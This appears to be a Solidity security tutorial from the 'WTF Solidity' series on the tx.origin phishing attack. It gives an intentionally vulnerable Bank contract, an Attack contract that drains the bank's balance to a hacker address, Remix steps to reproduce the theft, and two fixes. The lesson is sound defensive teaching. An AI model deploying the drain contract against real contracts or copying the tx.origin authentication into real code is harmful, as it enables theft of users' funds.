 ```yaml
---
title: S12. tx.origin Phishing Attack
tags:
  - solidity
  - security
  - tx.origin
---
```


# WTF Solidity S12. tx.origin Phishing Attack

Recently, I have been revisiting Solidity, consolidating the finer details, and writing "WTF Solidity" tutorials for newbies.

Twitter: [@0xAA_Science](https://twitter.com/0xAA_Science) | [@WTFAcademy\_](https://twitter.com/WTFAcademy_)

Community: [Discord](https://discord.gg/5akcruXrsk)｜[Wechat](https://docs.google.com/forms/d/e/1FAIpQLSe4KGT8Sh6sJ7hedQRuIYirOoZK_85miz3dw7vA1-YjodgJ-A/viewform?usp=sf_link)｜[Website wtf.academy](https://wtf.academy)

Codes and tutorials are open source on GitHub: [github.com/AmazingAng/WTF-Solidity](https://github.com/AmazingAng/WTF-Solidity)

English translations by: [@to_22X](https://twitter.com/to_22X)

---

In this lesson, we will discuss the `tx.origin` phishing attack and prevention methods in smart contracts.

## `tx.origin` Phishing Attack

When I was in middle school, I loved playing games. However, the game developers implemented an anti-addiction system that only allowed players who were over 18 years old, as verified by their ID card number, to play without restrictions. So, what did I do? I used my parent's ID card number to bypass the system and successfully circumvented the anti-addiction measures. This example is similar to the `tx.origin` phishing attack.

In Solidity, `tx.origin` is used to obtain the original address that initiated the transaction. It is similar to `msg.sender`. Let's differentiate between them with an example.

If User A calls Contract B, and then Contract B calls Contract C, from the perspective of Contract C, `msg.sender` is Contract B, and `tx.origin` is User A. If you are not familiar with the `call` mechanism, you can read [WTF Solidity 22: Call](https://github.com/AmazingAng/WTF-Solidity/blob/main/Languages/en/22_Call_en/readme.md).

![](./img/S12_1.jpg)

Therefore, if a bank contract uses `tx.origin` for identity authentication, a hacker can deploy an attack contract and then induce the owner of the bank contract to call it. Even if `msg.sender` is the address of the attack contract, `tx.origin` will be the address of the bank contract owner, allowing the transfer to succeed.

## Vulnerable Contract Example

### Bank Contract

Let's take a look at the bank contract. It is very simple and includes an `owner` state variable to record the contract owner. It has a constructor and a `public` function:

- Constructor: Assigns a value to the `owner` variable when the contract is created.
- `transfer()`: This function takes two parameters, `_to` and `_amount`. It first checks `tx.origin == owner` and then transfers `_amount` ETH to `_to`. **Note: This function is vulnerable to phishing attacks!**

```solidity
contract Bank {
    address public owner; // Records the owner of the contract

    // Assigns the value to the owner variable when the contract is created
    constructor() payable {
        owner = msg.sender;
    }

    function transfer(address payable _to, uint _amount) public {
        // Check the message origin !!! There may be phishing risks if the owner is induced to call this function!
        require(tx.origin == owner, "Not owner");
        // Transfer ETH
        (bool sent, ) = _to.call{value: _amount}("");
        require(sent, "Failed to send Ether");
    }
}
```

### Attack Contract

Next is the attack contract, which has a simple attack logic. It constructs an `attack()` function to perform phishing and transfer the balance of the bank contract owner to the hacker. It has two state variables, `hacker` and `bank`, to record the hacker's address and the address of the bank contract to be attacked.

It includes `2` functions:

- Constructor: Initializes the `bank` contract address.
- `attack()`: The attack function that requires the `owner` address of the bank contract to call. When the `owner` calls the attack contract, the attack contract calls the `transfer()` function of the bank contract. After confirming `tx.origin == owner`, it transfers the entire balance from the bank contract to the hacker's address.

```solidity
contract Attack {
    // Beneficiary address
    address payable public hacker;
    // Bank contract address
    Bank bank;

    constructor(Bank _bank) {
        // Forces the conversion of the address type _bank to the Bank type
        bank = Bank(_bank);
        // Assigns the beneficiary address to the deployer's address
        hacker = payable(msg.sender);
    }

    function attack() public {
        // Induces the owner of the Bank contract to call, transferring all the balance to the hacker's address
        bank.transfer(hacker, address(bank).balance);
    }
}
```

## Reproduce on `Remix`

**1.** Set the `value` to 10ETH, then deploy the `Bank` contract, and the owner address `owner` is initialized as the deployed contract address.

![](./img/S12-2.jpg)

**2.** Switch to another wallet as the hacker wallet, fill in the address of the bank contract to be attacked, and then deploy the `Attack` contract. The hacker address `hacker` is initialized as the deployed contract address.

![](./img/S12-3.jpg)

**3.** Switch back to the `owner` address. At this point, we were induced to call the `attack()` function of the `Attack` contract. As a result, the balance of the `Bank` contract is emptied, and the hacker's address gains 10ETH.

![](./img/S12-4.jpg)

## Prevention Methods

Currently, there are two main methods to prevent potential `tx.origin` phishing attacks.

### 1. Use `msg.sender` instead of `tx.origin`

`msg.sender` can obtain the address of the direct caller of the current contract. By verifying `msg.sender`, the entire calling process can be protected from external attack contracts.

```solidity
function transfer(address payable _to, uint256 _amount) public {
  require(msg.sender == owner, "Not owner");

  (bool sent, ) = _to.call{value: _amount}("");
  require(sent, "Failed to send Ether");
}
```

### 2. Verify `tx.origin == msg.sender`

If you must use `tx.origin`, you can also verify that `tx.origin` is equal to `msg.sender`. This can prevent external contract calls from interfering with the current contract. However, the downside is that other contracts will not be able to call this function.

```solidity
    function transfer(address payable _to, uint _amount) public {
        require(tx.origin == owner, "Not owner");
        require(tx.origin == msg.sender, "can't call by external contract");
        (bool sent, ) = _to.call{value: _amount}("");
        require(sent, "Failed to send Ether");
    }
```

## Summary

In this lesson, we discussed the `tx.origin` phishing attack in smart contracts. There are two methods to prevent it: using `msg.sender` instead of `tx.origin`, or checking `tx.origin == msg.sender`. It is recommended to use the first method, as the latter will reject all calls from other contracts.
